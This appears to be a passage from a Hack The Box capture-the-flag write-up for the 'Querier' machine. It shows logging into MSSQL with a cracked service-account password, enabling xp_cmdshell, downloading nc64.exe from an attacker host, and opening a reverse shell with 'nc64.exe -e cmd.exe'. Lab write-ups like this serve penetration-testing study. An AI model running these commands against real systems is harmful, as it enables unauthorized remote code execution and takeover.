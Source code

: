 Nice that worked, we now have credentials for the mssql-svc account. `mssql-svc:corporate568`

### Exploitation

Unable to login with psexec or evil-winrm, lets log back into the DB and see if we can now execute system commands with xp_cmdshell:

```
┌──(ryan㉿kali)-[~/HTB/Querier/doc/xl]
└─$ impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> EXECUTE sp_configure 'show advanced options',1;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell',1;
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc   
```

Nice we successfully enabled xp_cmdshell and can now execute commands. 

Lets use this to download a copy of nc64.exe to the target and get a proper reverse shell.

```
start python server:
xp_cmdshell "powershell.exe wget http://10.10.14.49/nc64.exe -OutFile c:\\Users\Public\\nc64.exe"

start nc listener:
xp_cmdshell "c:\\Users\Public\\nc64.exe -e cmd.exe 10.10.14.49 443"
```
